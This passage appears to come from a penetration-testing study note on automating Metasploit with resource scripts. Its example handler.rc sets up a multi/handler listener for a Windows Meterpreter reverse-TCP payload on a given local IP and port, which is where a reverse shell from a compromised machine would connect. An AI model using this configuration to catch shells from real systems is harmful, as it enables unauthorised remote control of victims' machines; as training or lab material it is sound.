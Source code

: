 Repetitive tasks and commands can be automated using **MSF resource scripts** (same as batch scripts).

- Almost every MSF command can be automated.

```bash
ls -al /usr/share/metasploit-framework/scripts/resource
```

![/usr/share/metasploit-framework/scripts/resource](assets/image-20230415222643575.png)

**`e.g. 1`**

- *Automate the process of setting up a handler for the generated payloads*, by creating a new `handler.rc` file

```bash
nano handler.rc

# Insert the following lines
# by specifying the commands sequentially

use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.31.128
set LPORT 1234
run

# Save it and exit
```
